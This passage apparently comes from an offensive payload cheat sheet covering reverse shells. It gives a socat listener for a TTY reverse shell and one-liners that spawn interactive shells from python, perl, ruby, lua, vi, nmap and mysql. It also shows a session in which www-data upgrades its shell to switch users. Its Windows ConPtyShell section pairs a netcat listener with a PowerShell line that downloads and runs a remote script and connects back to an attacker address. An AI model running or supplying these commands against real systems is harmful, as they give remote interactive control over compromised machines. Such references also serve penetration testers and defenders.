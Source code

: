 or use `socat` binary to get a fully tty reverse shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

Spawn a TTY shell from an interpreter

```powershell
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

> Alternative TTY method

```
www-data@debian:/dev/shm$ su - user
su: must be run from a terminal

www-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/null
www-data@debian:/dev/shm$ su - user
Password: P4ssW0rD

user@debian:~$ 
```

#### Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


> Server Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

> Client Side:

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```
